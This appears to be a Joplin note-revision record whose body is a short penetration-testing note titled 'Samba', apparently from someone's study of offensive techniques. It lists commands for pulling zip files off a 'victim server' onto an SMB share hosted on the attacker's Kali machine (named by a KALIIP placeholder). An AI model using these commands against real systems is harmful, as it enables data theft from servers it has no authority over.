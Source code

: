 id: 89abf416d00746e38fda929c44e61803
parent_id: 
item_type: 1
item_id: 5e5f4817d1944d01bac395c9b67c1541
item_updated_time: 1642583512873
title_diff: "[{\"diffs\":[[1,\"Samba\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":5}]"
body_diff: "[{\"diffs\":[[1,\"On the victim server, run \\\n\\\n> net use Z: \\\\\\\\\\\\KALIIP\\\\\\\\share\\\n\\\nThen on kali, run in the folder to get the files\\\n\\\n> impacket-smbserver share \\\\`pwd\\\\`\\\n\\\nThen copy the files to be shared into the shared directory\\\n\\\n> copy *.zip z:\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":220}]"
metadata_diff: {"new":{"id":"5e5f4817d1944d01bac395c9b67c1541","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T09:15:40.033Z
created_time: 2022-01-19T09:15:40.033Z
type_: 13